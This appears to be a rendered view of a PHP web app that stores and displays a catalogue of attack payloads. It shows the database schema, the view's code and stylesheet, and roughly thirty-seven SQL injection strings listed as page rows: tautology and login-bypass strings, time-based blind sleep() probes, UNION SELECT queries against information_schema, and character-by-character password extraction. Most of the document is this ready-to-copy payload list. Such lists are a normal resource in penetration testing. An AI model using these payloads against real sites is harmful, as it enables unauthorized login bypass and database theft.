

Screenshot of /payload_view.php?category_id=10 (upper part) with the database file from the repository (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE `payloads` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `title` varchar(255) NOT NULL,
  `payload_content` text NOT NULL,
  `category_id` int(11) DEFAULT NULL,
  `sub_category` varchar(100) DEFAULT NULL,
  `target_context` varchar(50) DEFAULT NULL,
  `encoding` varchar(50) DEFAULT NULL,
  `severity` enum('Low','Medium','High','Critical') DEFAULT 'Medium',
  `tags` varchar(255) DEFAULT NULL,
  `author_id` int(11) DEFAULT NULL,
  `approval_status` enum('pending','approved') DEFAULT 'approved',
  `created_at` timestamp NOT NULL DEFAULT current_timestamp(),
  `updated_at` timestamp NOT NULL DEFAULT current_timestamp() ON UPDATE current_timestamp(),
  PRIMARY KEY (`id`),
  KEY `category_id` (`category_id`),
  KEY `author_id` (`author_id`),
  CONSTRAINT `payloads_ibfk_1` FOREIGN KEY (`category_id`) REFERENCES `categories` (`id`),
  CONSTRAINT `payloads_ibfk_2` FOREIGN KEY (`author_id`) REFERENCES `users` (`id`)
);

### payload_view.php (the view, shortened to what this page needs)
<?php
include 'includes/header.php';
$cat_id = $_GET['category_id'] ?? 'all';
$categoryName = "All Payloads";
try {
    if ($cat_id === 'all') {
        $sql = "SELECT p.*, c.name as category_name FROM payloads p
                LEFT JOIN categories c ON p.category_id = c.id ORDER BY p.id DESC";
        $stmt = $pdo->query($sql);
    } else {
        $sql = "SELECT p.*, c.name as category_name FROM payloads p
                LEFT JOIN categories c ON p.category_id = c.id
                WHERE p.category_id = ? ORDER BY p.id DESC";
        $stmt = $pdo->prepare($sql);
        $stmt->execute([$cat_id]);
        $catStmt = $pdo->prepare("SELECT name FROM categories WHERE id = ?");
        $catStmt->execute([$cat_id]);
        $name = $catStmt->fetchColumn();
        if($name) $categoryName = $name;
    }
    $payloads = $stmt->fetchAll();
} catch (PDOException $e) { die("Error: " . $e->getMessage()); }
?>
<div class="main-content">
    <div class="d-flex justify-content-between align-items-center mb-4">
        <h2 class="text-white">📂 <?= htmlspecialchars($categoryName) ?></h2>
        <a href="index.php" class="btn btn-outline-light btn-sm">&larr; Dashboard</a>
    </div>
    <?php if (empty($payloads)): ?>
        <div class="alert alert-secondary">No payloads found.</div>
    <?php else: ?>
        <div class="table-responsive">
            <table class="table table-hover">
                <thead>
                    <tr>
                        <th width="20%">Title</th>
                        <th width="45%">Payload</th>
                        <th width="10%">Context</th>
                        <th width="10%">Severity</th>
                        <th width="15%">Action</th>
                    </tr>
                </thead>
                <tbody>
                    <?php foreach ($payloads as $p): ?>
                        <tr>
                            <td class="fw-bold text-white"><?= htmlspecialchars($p['title']) ?></td>
                            <td>
                                <div class="payload-font">
                                    <?= htmlspecialchars($p['payload_content']) ?>
                                </div>
                            </td>
                            <td><small class="text-muted"><?= htmlspecialchars($p['target_context'] ?? 'N/A') ?></small></td>
                            <td>
                                <?php
                                    $sevClass = match($p['severity']) {
                                        'Critical' => 'bg-critical',
                                        'High'     => 'bg-high',
                                        'Low'      => 'bg-low',
                                        default    => 'bg-medium'
                                    };
                                ?>
                                <span class="badge <?= $sevClass ?>"><?= htmlspecialchars($p['severity']) ?></span>
                            </td>
                            <td>
                                <button class="btn btn-sm btn-copy"
                                        onclick="copyToClipboard(this, '<?= htmlspecialchars(addslashes($p['payload_content']), ENT_QUOTES) ?>')">
                                    Copy
                                </button>
                            </td>
                        </tr>
                    <?php endforeach; ?>
                </tbody>
            </table>
        </div>
    <?php endif; ?>
</div>
<?php include 'includes/footer.php'; ?>

### assets/style.css (style rules this page uses)
:root { --bg-dark: #121212; --component-bg: #1e1e1e; --border-color: #333; --text-main: #e0e0e0; --text-muted: #a0a0a0; --primary: #2979ff; --success: #00e676; --danger: #ff5252; }
body { font-family: 'Segoe UI', system-ui, sans-serif; background-color: var(--bg-dark); color: var(--text-main); }
.table { color: var(--text-main) !important; border-color: var(--border-color) !important; }
.table thead th { background-color: #252526 !important; color: #fff !important; border-bottom: 2px solid var(--border-color) !important; }
.payload-font { font-family: 'Courier New', monospace; background: #000; color: var(--success); padding: 8px 12px; border-radius: 4px; border: 1px solid #333; display: block; max-width: 600px; overflow-x: auto; white-space: pre-wrap; }
.badge { font-weight: 500; letter-spacing: 0.5px; }
.bg-critical { background-color: #d32f2f !important; }

### rows the page displays
payloads: title "Tautology: '+||+1=1#...", payload_content "'+||+1=1#…", target_context "Body Parameter", severity "Critical"
payloads: title "Time-Based Blind: ?id=1' and sleep(2) and s...", payload_content "?id=1' and sleep(2) and substring(database(),1,1)=\"a\"--+…", target_context "URL Parameter", severity "Critical"
payloads: title "Time-Based Blind: ?id=1' and sleep(2) and '...", payload_content "?id=1' and sleep(2) and \"a\"=\"a\"--+", target_context "URL Parameter", severity "Critical"
payloads: title "Auth Bypass: ?id=1' and substring(data...", payload_content "?id=1' and substring(database(),1,1)=\"a\"--+…", target_context "URL Parameter", severity "Critical"
payloads: title "Auth Bypass: ?id=1' and database()='se...", payload_content "?id=1' and database()=\"securtiy\"--+", target_context "URL Parameter", severity "Critical"
payloads: title "Auth Bypass: ?id=1' and 'a'='a'--+...", payload_content "?id=1' and \"a\"=\"a\"--+…", target_context "URL Parameter", severity "Critical"
payloads: title "Auth Bypass: ?id=1' order by 1 --+...", payload_content "?id=1' order by 1 --+…", target_context "URL Parameter", severity "Critical"
payloads: title "Admin Bypass: admin' or 1=1;--...", payload_content "admin' or 1=1;--…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' and 'x'='x...", payload_content "' and 'x'='x…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: '='or'...", payload_content "'=\"or'…", target_context "Body Parameter", severity "Critical"
payloads: title "Tautology: ' or 1=1 limit 1 -- -+...", payload_content "' or 1=1 limit 1 -- -+…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' and substring(password/...", payload_content "' and substring(password/text(),1,1)='7…", target_context "Body Parameter", severity "Critical"
payloads: title "Admin Bypass: admin' and substring(pass...", payload_content "admin' and substring(password/text(),1,1)='7…", target_context "Body Parameter", severity "Critical"
payloads: title "Union Select: ' UNION select table_sche...", payload_content "' UNION select table_schema,table_name FROM information_Schema.tables;#…", target_context "Body Parameter", severity "Critical"
payloads: title "Union Select: ' UNION ALL SELECT system...", payload_content "' UNION ALL SELECT system_user(),user();#", target_context "Body Parameter", severity "Critical"
payloads: title "Union Select: ' UNION ALL SELECT 1, @@v...", payload_content "' UNION ALL SELECT 1, @@version;#", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: '=' 'or' and '=' 'or'...", payload_content "'=' 'or' and '=' 'or'…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' OR 'x'='x'#;...", payload_content "' OR 'x'='x'#;…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ') or ('x'='x...", payload_content "') or ('x'='x…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or username like '%...", payload_content "' or username like '%…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or user like '%...", payload_content "' or user like '%…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or userid like '%...", payload_content "' or userid like '%…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or uname like '%...", payload_content "' or uname like '%…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or uid like '%...", payload_content "' or uid like '%…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or 'one'='one–...", payload_content "' or 'one'='one–…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or 'one'='one...", payload_content "' or 'one'='one…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ') or ('a'='a and hi') or...", payload_content "') or ('a'='a and hi\") or (\"a\"=\"a", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ') or ('a'='a...", payload_content "\") or (\"a\"=\"a…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or 'a'='a...", payload_content "\" or \"a\"=\"a…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ') or ('a'='a...", payload_content "') or ('a'='a…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or a=a–...", payload_content "' or a=a–…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or a=a--...", payload_content "' or a=a--…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ' or 'a'='a...", payload_content "' or 'a'='a…", target_context "Body Parameter", severity "Critical"
payloads: title "Tautology: 'or 1=1 or ''='...", payload_content "\"or 1=1 or \"\"=\"…", target_context "Body Parameter", severity "Critical"
payloads: title "Tautology: 'or 1=1 or ''='...", payload_content "'or 1=1 or ''='…", target_context "Body Parameter", severity "Critical"
payloads: title "Tautology: ' or 1=1 LIMIT 1;#...", payload_content "' or 1=1 LIMIT 1;#…", target_context "Body Parameter", severity "Critical"
payloads: title "Auth Bypass: ) or ('1′='1–...", payload_content ") or ('1′='1–…", target_context "Body Parameter", severity "Critical"
